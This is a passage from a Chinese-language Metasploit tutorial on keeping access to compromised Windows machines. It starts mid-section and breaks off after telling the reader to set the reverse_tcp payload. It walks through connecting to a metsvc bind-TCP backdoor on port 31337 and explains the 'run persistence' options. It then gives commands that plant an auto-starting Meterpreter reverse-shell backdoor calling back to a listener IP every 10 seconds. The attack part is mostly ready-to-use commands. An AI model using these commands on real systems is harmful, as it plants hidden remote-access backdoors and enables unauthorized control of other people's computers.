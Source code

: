 3)链接后门
```
use exploit/multi/handler
```
payload设置为windows/metsvc_bind_tcp
```
set payload windows/metsvc_bind_tcp
```
然后设置目标ip和绑定端口31337
```
set rhost 192.168.100.84
```
```
set lport 31337
```
运行程序
```
run
```
## 2.persistence

(1) 使用run persistence -h查看参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-L：自启动脚本的路径，默认为%TEMP%

-P：需要使用的payload，默认为
```
windows/meterpreter/reverse_tcp
```
-S：作为一个服务在系统启动时运行（需要SYSTEM权限）

-T：要使用的备用可执行模板

-U：用户登陆时运行

-X：系统启动时运行

-i：后门每隔多少秒尝试连接服务端

-p：服务端监听的端口

-r：服务端ip

(2) 生成后门
```
命令：run persistence -X -i 10 -r 192.168.1.9 -p 4444

run persistence -X -i 10 -r 192.168.100.82 -p 4545 
```




(3) 连接后门

使用exploit/multi/handler模块，payload设置为
```
windows/meterpreter/reverse_tcp
```